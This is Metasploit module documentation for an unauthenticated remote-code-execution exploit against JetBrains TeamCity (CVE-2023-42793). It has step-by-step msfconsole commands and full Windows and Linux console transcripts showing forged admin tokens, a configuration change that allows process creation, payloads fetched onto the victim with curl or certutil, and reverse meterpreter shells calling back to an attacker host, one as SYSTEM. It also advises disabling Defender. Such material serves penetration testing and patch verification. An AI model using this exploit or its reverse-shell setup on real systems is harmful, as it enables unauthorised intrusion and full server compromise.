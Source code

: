 ## Vulnerable Application
This module exploits an authentication bypass vulnerability to achieve unauthenticated remote code execution
against a vulnerable JetBrains TeamCity server. All versions of TeamCity prior to version 2023.05.4 are
vulnerable to this issue. The vulnerability was originally discovered by SonarSource.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis).

## Testing
Download and install a vulnerable version of TeamCity for Windows, version
[2023.05.3](https://download.jetbrains.com/teamcity/TeamCity-2023.05.3.exe). By default the server will listen for HTTP
connections on port 8111.

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793`
3. `set RHOST 192.168.86.50`
4. `set RPORT 8111`
5. Set a Target:
    * `set target 0` for Windows.
    * `set target 1` for Linux.
6. Set a suitable command based PAYLOAD:
    * `set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp` for Windows.
    * `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp` for Linux.
7. Change the FETCH_WRITABLE_DIR if needed:
    * `set FETCH_WRITABLE_DIR %TEMP%` for Windows.
    * `set FETCH_WRITABLE_DIR /tmp` for Linux.
8. `check`
9. `exploit`

## Scenarios

### Windows
```
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                     Current Setting  Required  Description
   ----                     ---------------  --------  -----------
   Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                    8111             yes       The target port (TCP)
   SSL                      false            no        Negotiate SSL/TLS for outgoing connections
   TEAMCITY_ADMIN_ID        1                yes       The ID of an administrator account to authenticate as
   TEAMCITY_CHANGE_TIMEOUT  30               yes       The timeout to wait for the changes to be applied
   VHOST                                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      xwOdwhbLavjs     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RPORT 8111
RPORT => 8111
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > check
[+] 192.168.86.50:8111 - The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.c2ozbE1aYXdTNnhlVlRJRGdEeEU0c2VoQ1Qw.MTlkZjQ2YTktOTc1MS00YzRlLWEwMGEtYzE0ODEyZjZmMzIw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for configuration change to be applied...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Deleting the authentication token.
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:51978) at 2023-09-28 12:20:48 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### Linux
```
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                     Current Setting  Required  Description
   ----                     ---------------  --------  -----------
   Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                   192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                    8111             yes       The target port (TCP)
   SSL                      false            no        Negotiate SSL/TLS for outgoing connections
   TEAMCITY_ADMIN_ID        1                yes       The ID of an administrator account to authenticate as
   TEAMCITY_CHANGE_TIMEOUT  30               yes       The timeout to wait for the changes to be applied
   VHOST                                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      zpqZhbbEUzyX     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux



View the full module info with the info, or info -d command.

msf exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.Y0F2UmpEc01hQzVQRjl3a2V3QWxoZ1pzdlg4.MmRhZTM5OTctY2MxZS00YmExLWIzZmYtOTUxOWZlZTBhNWUw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.43
[*] Resetting the internal.properties settings...
[*] Deleting the authentication token.
[*] Meterpreter session 8 opened (192.168.86.42:4444 -> 192.168.86.43:50210) at 2023-09-28 14:43:13 +0100

meterpreter > sysinfo
Computer     : 192.168.86.43
OS           : Ubuntu 22.04 (Linux 6.2.0-33-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
